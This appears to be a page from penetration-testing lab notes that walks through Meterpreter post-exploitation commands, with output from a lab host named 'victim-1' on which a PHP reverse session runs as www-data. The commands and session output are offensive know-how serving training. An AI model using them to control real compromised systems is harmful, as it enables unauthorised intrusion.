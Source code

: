 ```bash
    ps            List running processes
    shell         Drop into a system command shell
    sysinfo       Gets information about the remote system, such as OS


Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play an audio file on target system, nothing written on disk
```

### sysinfo

```bash
meterpreter > sysinfo
```

```bash
Computer    : victim-1
OS          : Linux victim-1 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64
Meterpreter : php/linux
```

### getuid

```bash
meterpreter > getuid
```

<pre class="language-bash"><code class="lang-bash"><strong>Server username: www-data (33)
</strong></code></pre>

* Unprivileged session with the `www-data` user

### background <a href="#background" id="background"></a>

```bash
background
```

* Keyboard shortcut: `CTRL+Z`

```bash
mf5 > sessions
```

```bash
Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter php/linux  www-data (33) @ victim-1  192.78.84.2:4444 -> 192.78.84.3:35472 (192.78.84.3)
```
